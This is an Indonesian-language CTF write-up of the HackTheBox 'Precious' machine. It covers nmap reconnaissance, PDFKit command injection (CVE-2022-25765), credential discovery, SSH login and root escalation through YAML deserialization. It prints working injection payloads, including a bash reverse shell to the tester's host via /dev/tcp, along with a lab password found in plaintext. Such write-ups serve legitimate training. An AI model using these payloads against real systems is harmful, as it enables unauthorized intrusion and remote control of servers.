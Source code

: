 ```yaml
---
title: "HackTheBox - Precious WriteUps"
date: 2022-12-12 19:00:00 +07:00
categories: [WriteUps]
tags: [ctf, hackthebox, pentest, writeups]
image: 
---
```


# HackTheBox Precious WriteUps

Scanning dengan Nmap seperti biasa dan kita bisa melihat Port yang terbuka seperti Port 22 SSH dan Port 80 http nginx 1.18.0. Selanjutnya kita mencoba fokus pada Port 80 http

```
┌──(root㉿yupy)-[~]
└─# nmap -sC -sV precious.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 04:13 PST
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.57 seconds
```

Pada 10.10.11.189 ini akan diarahkan pada precious.htb dan jangan lupa tambahkan domain tersebut pada /etc/hosts. Tampilan pada Port 80 ini menampilkan halaman search engine convert web page to PDF. Kita coba cari kerentanan yang terdapat search engine convert web page to PDF.

![image](https://media.discordapp.net/attachments/740245586095112242/1051834546783531068/image.png)

Sekarang coba mengarahkan Web Page to PDF dengan Server kita sendiri, dengan mencoba menyambungkan dengan server kita.

![image](https://media.discordapp.net/attachments/740245586095112242/1051834923369111552/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1051835167121100810/image.png)

Dengan kita menambahkan payload url http server kita dapat mendownload file PDF otomatis yang ada di server target, dan PDF ini juga berisi Directory Listing website kita sendiri.

![image](https://media.discordapp.net/attachments/740245586095112242/1051835355680219136/image.png?width=859&height=580)
![image](https://media.discordapp.net/attachments/740245586095112242/1051835389486313556/image.png)

Dengan kita mendownload PDF dari website target, kita coba untuk menggunakan exiftool untuk melihat lebih dalam di file PDF tersebut.

![image](https://media.discordapp.net/attachments/740245586095112242/1051835420884881408/image.png)

Selanjutnya disini kami menemukan bahwa website ini vulnerability CVE-2022-25765 yang saya peroleh pada [Artikel](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Berikut ini kami mencoba menambahkan payload pada:
```
http://10.10.14.16:8000/?name=#{'%20`sleep 5`'}")
```

Disini bahwa payload sleep menandakan tertidur, dan file PDF terdownload otomatis.

![image](https://media.discordapp.net/attachments/740245586095112242/1051835488467697734/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1051835517639069767/image.png?width=804&height=580)

Selanjutnya kita disini mencoba payload sleep menjadi revshell, Dengan revshells.com kita dapat membuat reverse shell menggunakan python dan sambungkan netcat pada terminal untuk melihat apakah berhasil backconnect.

```
http://10.10.14.16:8000/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.16/1337 0>&1"`'}
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051835579312123934/image.png)

Setelah kita dapat backconnect dengan website disini kita coba mencari Informasi Senstive dan mendapatkanya pada directory “cat .bundle/config” 

![image](https://media.discordapp.net/attachments/740245586095112242/1051836735430066226/image.png)
```
ruby@precious:~$ find . -iname 'config' -type f | xargs -I REPLACE ls -halF REPLACE
<config' -type f | xargs -I REPLACE ls -halF REPLACE
-r-xr-xr-x 1 root ruby 62 Sep 26 05:04 ./.bundle/config*
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Kita mencoba menghubungkan dengan SSH dengan “ssh henry@10.10.11.189” password: Q3c1AqGHtoI0aXAYFH

```
┌──(root㉿yupy)-[~]
└─# ssh henry@10.10.11.189
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
08******************************8
```
Disini kita berhasil masuk pada SSH. Kita mencoba untuk melihat sudoers apa saja yang bisa kita local privileges, Dengan melihat izin sudoers, kita dapat menjalankan file ruby sebagai root.

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Jika kita membaca file tersebut, kita dapat melihat bahwa di satu bagian mendapatkan file yml yang mencoba memuat dependencies.yml

```
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051837942324273253/image.png)

Kita melihat bahwa itu menggunakan YAML.load, yang rentan terhadap deserialization attack. Anda dapat membaca lebih lanjut tentang deserialization YAML [disini](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md). Kita disini mencoba membuat file “dependencies.yml” dengan [payload](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) untuk mengexploitasikan.

![image](https://media.discordapp.net/attachments/740245586095112242/1051838267147943936/image.png)
```
henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ bash -p
bash-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) groups=1000(henry)
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
df********************************c
```
![image](https://media.discordapp.net/attachments/740245586095112242/1051832917434847232/image.png?width=604&height=580)


